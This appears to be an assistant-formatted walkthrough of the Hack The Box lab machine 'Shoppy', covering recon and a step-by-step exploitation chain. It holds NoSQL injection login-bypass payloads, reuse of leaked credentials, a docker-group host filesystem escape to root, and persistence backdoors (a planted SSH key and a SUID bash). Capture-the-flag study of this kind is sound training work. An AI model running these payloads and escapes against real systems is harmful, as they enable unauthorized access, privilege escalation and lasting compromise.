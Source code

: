 Here’s your organized and markdown-formatted notes for **HTB: Shoppy** 🛒💥 – structured by phase, with all key commands and findings for your HTB arsenal:

---

# 🛍️ HTB: Shoppy – Command & Exploitation Guide

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.180
nmap -p 22,80,9093 -sCV 10.10.11.180
```

### Hosts File
```bash
echo "10.10.11.180 shoppy.htb mattermost.shoppy.htb" | sudo tee -a /etc/hosts
```

### Subdomain Fuzzing
```bash
wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 169
```

### [Feroxbuster](HTTP)
```bash
feroxbuster -u http://shoppy.htb
```

---

## 🔑 NoSQL Auth Bypass

### Target: `/login`
**Bypass Payload (URL-Encoded or Raw)**:
```bash
username=admin'||'a'=='a&password=admin
```

**Headers**:
```http
Content-Type: application/x-www-form-urlencoded
```

### Dump Users via Injection:
```bash
username=admin' || 1==1 //&password=123
```

### Decode MD5 Hash on [CrackStation](https://crackstation.net)

---

## 💬 Mattermost Access

### Use Found Creds
- **User**: josh
- **Pass**: `remembermethisway`

### Locate SSH Creds for `jaeger` in "Deploy Machine" Channel:
- `user: jaeger`
- `pass: Sh0ppyBest@pp!`

---

## 🔐 [SSH](SSH) Access

```bash
sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@shoppy.htb
```

---

## 🧑‍💼 PrivEsc to Deploy

### Sudo Check
```bash
sudo -l
```

### Path Found
```bash
sudo -u deploy /home/deploy/password-manager
```

### Reverse Engineering

**Pull Binary:**
```bash
scp jaeger@shoppy.htb:/home/deploy/password-manager .
```

**Extract Password:**
Use Ghidra OR:
```bash
strings -el password-manager
```

**Result**:
```text
Password: Sample
```

**Use it:**
```bash
sudo -u deploy /home/deploy/password-manager
# --> Deploying@pp!
```

**Switch User:**
```bash
su deploy
```

---

## 🐳 Root via Docker Group

### Confirm Docker Access
```bash
id
docker images
```

### Method 1: Mount Host Filesystem (Basic)
```bash
docker run --rm -it -v /:/mnt alpine /bin/sh
```

### Method 2: chroot Escape to Host (Recommended)
```bash
docker run --rm -it -v /:/mnt alpine chroot /mnt sh
```

### Get Flag
```bash
cat /root/root.txt
```

---

## 🪝 Optional Root Persistence

### SSH Access via Public Key (From Container)
```bash
mkdir /root/.ssh
echo "ssh-ed25519 AAAA...user@host" > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

### Or Make Bash SUID
```bash
chmod 4777 /bin/bash
bash -p
```

---

## 🔬 Beyond Root: NoSQL Injection Logic

### Original Code Equivalent:
```js
this.username == 'admin' || 'a'=='a' && this.password == 'pass'
```

### Precedence Breakdown:
```text
true || (true && false) => true
```